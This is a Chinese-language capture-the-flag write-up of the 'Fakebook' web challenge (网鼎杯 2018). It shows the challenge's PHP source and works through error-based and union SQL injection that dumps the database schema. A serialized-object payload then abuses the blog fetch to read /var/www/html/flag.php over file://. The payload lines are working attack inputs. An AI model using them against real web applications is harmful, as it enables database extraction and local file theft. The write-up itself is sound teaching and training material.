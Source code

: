 # 2021/07/14

## Fakebook

> 网鼎杯 2018

### 题目

题目进去之后是一个界面

![202107141](img/20210714/202107141.png)

login是登录，join是注册，先扫一波后台，发现`robots.txt`

![202107142](img/20210714/202107142.png)

有备份文件，下载下来

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

很明显和反序列化有关，但是暂时没发现利用点，先注册一个账号，登陆一下

![202107143](img/20210714/202107143.png)

点击`1`，发现显示出来百度的页面信息

![202107144](img/20210714/202107144.png)

结合上面的代码，可以想到是`SSRF`的问题，因为源代码中限制了协议类型，无法绕过，需要借助**反序列化**，将payload插入，读出`flag`，但是目前还是没有利用点，试一下展示页面的`no`参数，发现存在**SQL注入**，首先采用联合查询，`no=-1/**/union/**/select/**/1,2,3,4`，查看页面信息

![202107145](img/20210714/202107145.png)

发现路径为`/var/www/html`，继续采用**报错注入**，可以爆出数据库，表，列名，可以发现其中`data`字段就是存储反序列化数据的字段

![202107146](img/20210714/202107146.png)

然后采用联合查询的方法，将序列化数据导入即可

### payload

```
view.php?no=1^extractvalue(1,concat('~',database()))%23
// [*] query error! (XPATH syntax error: '~fakebook')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(table_name))from(information_schema.tables)where((table_schema)=('fakebook')))))%23
// [*] query error! (XPATH syntax error: '~users')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(column_name))from(information_schema.columns)where((table_name)=('users')))))%23
// [*] query error! (XPATH syntax error: '~no,username,passwd,data,USER,CU')
no=-1/**/union/**/select 9,5,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
// return flag
```
